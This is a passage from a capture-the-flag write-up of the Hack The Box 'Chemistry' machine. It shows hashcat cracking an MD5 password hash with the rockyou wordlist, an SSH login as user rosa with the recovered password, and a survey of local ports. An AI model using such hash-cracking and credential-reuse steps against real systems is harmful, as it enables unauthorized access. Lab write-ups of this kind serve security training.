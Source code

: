 The `rosa` user existed on the box and the database as well. It was possible to crack the hash as shown below.

```
┌──(kali㉿kali)-[~/hackthebox/chemistry]
└─$ hashcat hashes.txt /usr/share/wordlists/rockyou.txt -m 0 --show
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
```

# SSH Access - User: rosa

The credentials worked and granted access via SSH. User flag captured.

```
┌──(kali㉿kali)-[~/hackthebox/chemistry/www]
└─$ ssh rosa@10.10.11.38
rosa@10.10.11.38's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)
Last login: Sun Oct 20 02:59:45 2024 from 10.10.14.14
rosa@chemistry:~$ 
rosa@chemistry:~$ ls -la
total 3076
drwxr-xr-x 6 rosa rosa    4096 Oct 19 21:28 .
drwxr-xr-x 4 root root    4096 Jun 16 23:10 ..
lrwxrwxrwx 1 root root       9 Jun 17 01:50 .bash_history -> /dev/null
-rw-r--r-- 1 rosa rosa     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 rosa rosa    3771 Feb 25  2020 .bashrc
drwx------ 2 rosa rosa    4096 Jun 15 20:38 .cache
drwx------ 4 rosa rosa    4096 Oct 19 21:38 .gnupg
-rw------- 1 rosa rosa      60 Oct 19 21:28 .lesshst
drwxrwxr-x 4 rosa rosa    4096 Jun 16 16:04 .local
-rw-r--r-- 1 rosa rosa     807 Feb 25  2020 .profile
-rwxrwxr-x 1 rosa rosa 3104768 Oct 19 20:14 pspy64
lrwxrwxrwx 1 root root       9 Jun 17 01:51 .sqlite_history -> /dev/null
drwx------ 2 rosa rosa    4096 Jun 15 18:24 .ssh
-rw-r--r-- 1 rosa rosa       0 Jun 15 20:43 .sudo_as_admin_successful
-rw-r----- 1 root rosa      33 Oct 19 19:01 user.txt
rosa@chemistry:~$
 
```

# Inspecting Local Ports

Netstat returned a service running on port 8080 locally which is interesting. After curling the service it revealed a web application is active on that port.

![198f8ae11cef5519e6be21f2c37dcf7f.png](/assets/img/198f8ae11cef5519e6be21f2c37dcf7f.png)

